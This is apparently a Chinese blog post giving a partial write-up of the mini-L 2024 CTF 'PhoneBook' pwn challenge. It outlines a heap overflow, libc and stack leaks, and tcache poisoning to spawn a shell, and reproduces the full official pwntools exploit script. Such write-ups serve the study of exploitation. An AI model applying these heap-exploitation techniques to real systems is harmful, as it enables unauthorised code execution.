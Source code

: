 ```yaml
---
title: mini-L WriteUp
date: 2024-05-20 15:26:44
tags: WriteUp
---
```


# mini-L 部分WriteUp

## PhoneBook

最大进步 这次没摆烂学了一下ida怎么加结构体

> View - Open Subviews - Local Type - INSERT键 - 输入新结构体 - 右击"Synchornize to idb"

然后发现不加结构体更好看出来溢出

其实思路很简单

1. 存在一个3字节的溢出，直接可以修改node.next
2. 首先利用%s，泄露出堆地址
3. 接着构造多个小堆块，同时伪造prev和size，修改某个堆块的指针，从而把我们的fake_chunk放到unsortedbin中
4. 修改链表，泄露libc
5. 后面常规打法，用libc_environ
6. 由于可以修改指针，其实可以算好偏移，就可以实现任意地址写和任意地址读

放一个官方的exp

```python
from pwn import*
p = process("./PhoneBook")
libc = ELF("./libc.so.6")
def DEBUG():
    context.log_level = 'debug'
    attach(p)
    pause()

def menu(choice):
    p.recvuntil(b'Your Choice: \n')
    p.sendline(str(choice).encode())

def add(name, num):
    menu(1)
    p.recvuntil(b'Name?\n')
    p.send(name)
    p.recvuntil(b'Phone Number?\n')
    p.send(num)

def dele(index):
    menu(2)
    p.recvuntil(b'Index?\n')
    p.sendline(str(index).encode())

def show():
    menu(3)

def edit(index, name, num):
    menu(4)
    p.recvuntil(b'Index?\n')
    p.sendline(str(index).encode())
    p.recvuntil(b'Name?\n')
    p.send(name)
    p.recvuntil(b'Phone Number?\n')
    p.send(num)
# context.log_level = 'debug'
add(b'A', b'1' * 8)
add(b'B', b'2' * 8)
add(b"C", b'3' * 8)     # 1
show()
p.recvuntil(b'2'*8)
heapbase = u64(p.recv(6).ljust(8, b'\x00'))-0x330
log.success('heapbase ===> '+hex(heapbase))

# make a big heap and free it into unsortedbin
for i in range(30):
    add(b'i', b'0')     # 4 - 0x33
edit(4, p64(0x4a1)+p64(4), b'0')
# DEBUG()
edit(3, b'A', b'0'*8+b'\x70')
dele(4)

edit(2, b'A', b'0'*8+b'\x68')
show()
p.recvuntil(b'1185    ')
libcbase = u64(p.recv(6).ljust(8, b'\x00'))-0x219ce0
log.success('libcbase ===> '+hex(libcbase))
environ = libcbase + libc.symbols['environ']
sys = libcbase + libc.symbols['system']
bin_sh = libcbase + next(libc.search(b'/bin/sh\x00'))
pop_rdi = libcbase + 0x2a3e5
log.success('libc_environ ==> ' + hex(environ))
edit(1, b'A', p64(environ-0x18))
edit(2, b'A', b'0'*8+p16((heapbase&0xffff)+0x2c8))
show()

p.recvuntil(b'0                       ')
stack = u64(p.recv(6).ljust(8, b'\x00'))-0x148
log.success('stack ===> '+hex(stack))

#tcache poison 打栈
edit(2, b'A', b'0'*8+p16((heapbase&0xffff)+0x3f0))
dele(7)
dele(8)

edit(2, b'A', b'0'*8+p16((heapbase&0xffff)+0x418))
pos = heapbase + 0x420
fd = (stack) ^ (pos>>12)
edit(0x31, p64(fd), b'A')

edit(2, b'A', b'0'*8+p16((heapbase&0xffff)+0x810))
add(b'A', b'A')     #0x34
add(p64(pop_rdi)+p64(bin_sh)[:7], p64(sys-0x470+2)) #0x35
DEBUG()
p.interactive()
```

[miniLCTF_2024/OfficialWriteups/Pwn/Pwn wp.md](https://github.com/XDSEC/miniLCTF_2024/blob/main/OfficialWriteups/Pwn/Pwn wp.md)

